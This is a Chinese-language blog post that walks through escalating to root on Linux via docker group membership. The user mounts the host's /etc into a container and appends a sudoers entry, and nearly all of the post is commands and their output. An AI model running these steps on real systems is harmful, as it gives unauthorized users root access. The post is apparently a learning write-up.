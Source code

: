 ```yaml
---
layout: post
title: "Docker提权案例"
subtitle: "介绍一种docker提权场景"
date: 2022-06-21
author: "Cheney.Yin"
header-img: "//i.328888.xyz/2023/03/25/iADI63.jpeg"
tags:
 - Docker
 - 提权
 - 用户组
 - sudo
---
```


# docker 提权案例

假设存在用户`tom`，该用户无法`sudo`，但属于`docker`组。
首先，创建用户，

```shell
sudo useradd -m tom
```
查看用户当前信息，
```shell
id tom
uid=1002(tom) gid=1002(tom) groups=1002(tom)
```
将用户加入到`docker`组，
```shell
sudo gpasswd -a tom docker
Adding user tom to group docker
```
查看用户信息，可以看到已经成功加入组。
```shell
id tom
uid=1002(tom) gid=1002(tom) groups=1002(tom),1001(docker)
```
切换登录`tom`，可以成功执行`docker`相关命令。
```shell
su tom
[tom@cheney-hp cheney]$ docker ps -a
CONTAINER ID   IMAGE      COMMAND                  CREATED        STATUS                           PORTS     NAMES
5facb46f63a9   registry   "/entrypoint.sh /etc…"   20 hours ago   Exited (2) 19 hours ago                    registry
e27bbc62b96c   busybox    "sh"                     25 hours ago   Exited (137) About an hour ago             busybox
```
目前，用户`tom`无法执行`sudo`。
```shell
sudo ip addr
tom is not in the sudoers file.  This incident will be reported.
```

接下来，我们借助`docker`进行提权。

```shell
[tom@cheney-hp cheney]$ docker run -itd -v /etc:/etc --name ubuntu ubuntu /bin/bash
b0483f78382d8413a7a6d6e9bc8ceb62fe8819c3ffced1907d7fac95b3034e66
```

 把本地`/etc`映射进容器，进入容器后，登录用户为`root`。

```shell
[tom@cheney-hp cheney]$ docker exec -it ubuntu /bin/bash
root@b0483f78382d:/#
```

在容器内把`tom`加入到`sudoers`文件，

```shell
root@b0483f78382d:/# echo 'tom ALL=(ALL) ALL' >> /etc/sudoers
```

退出容器，测试是否可以正常执行`sudo`。

```shell
[tom@cheney-hp cheney]$ sudo ip addr
[sudo] password for tom:
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
```

背后原理，后续补充。
